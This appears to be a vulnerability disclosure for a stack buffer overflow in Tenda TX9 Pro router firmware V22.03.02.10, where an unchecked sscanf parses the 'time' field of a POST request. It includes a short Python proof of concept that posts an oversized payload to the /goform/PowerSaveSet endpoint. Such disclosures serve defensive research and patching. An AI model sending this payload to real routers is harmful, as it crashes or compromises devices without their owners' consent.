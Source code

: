 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-4219.html

## Affected version

TX9 Pro Firmware  V22.03.02.10

## Vulnerability details

The Tenda TX9 Pro Firmware  V22.03.02.10 firmware has a stack overflow vulnerability in the `sub_42C014` function. The `v4` variable receives the `time` parameter from a POST request and `v4` is directly parsed into the `v11`, `v10`, `v9` and `v8`. However, since the user can control the input of `v4`, the statement `sscanf(v4, "%d:%d-%d:%d", &v8, &v9, &v10, &v11);` can cause a buffer overflow by `v11`, `v10`, `v9` and `v8`.

![image-20240416114726455](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114726455.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/PowerSaveSet"
payload = 'a'*1000 + ':aaaa-bbb:1'

data = {"time": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114654675](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114654675.png)
